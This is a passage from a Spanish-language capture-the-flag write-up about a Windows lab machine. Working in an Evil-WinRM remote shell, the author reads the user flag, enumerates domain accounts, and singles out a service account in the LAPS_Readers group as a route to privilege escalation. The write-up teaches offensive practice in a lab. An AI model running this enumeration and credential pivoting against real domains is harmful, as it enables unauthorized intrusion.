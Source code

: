 y ya podríamos verl a flag de usuario:

> *Evil-WinRM* PS C:\Users\legacyy\Documents> cd ..
>
> *Evil-WinRM* PS C:\Users\legacyy> cd Desktop
>
> *Evil-WinRM* PS C:\Users\legacyy\Desktop> type user.txt
```console
8681855e4ab3fe08f1d3fd0a411a5281
```

## Escalación de Privilegios

stamos los usuarios con `net users`

> *Evil-WinRM* PS C:\Users\legacyy\Desktop> net users

```console
User accounts for \\

-------------------------------------------------------------------------------
Administrator            babywyrm                 Guest
krbtgt                   legacyy                  payl0ad
sinfulz                  svc_deploy               thecybergeek
TRX
The command completed with one or more errors.
```

Y revisando los usuarios observamos que `svc_deploy` pertenece al grupo *Remote Management Users* y También es parte del Grupo *LAPS_Readers* el cual es un gestori de contraseñas

```console
*Evil-WinRM* PS C:\Users\legacyy\Desktop> net user svc_deploy
User name                    svc_deploy
Full Name                    svc_deploy
Comment
User's comment
Country/region code          000 (System Default)
Account active               Yes
Account expires              Never

Password last set            10/25/2021 12:12:37 PM
Password expires             Never
Password changeable          10/26/2021 12:12:37 PM
Password required            Yes
User may change password     Yes

Workstations allowed         All
Logon script
User profile
Home directory
Last logon                   10/25/2021 12:25:53 PM

Logon hours allowed          All

Local Group Memberships      *Remote Management Use
Global Group memberships     *LAPS_Readers         *Domain Users
The command completed successfully.
```
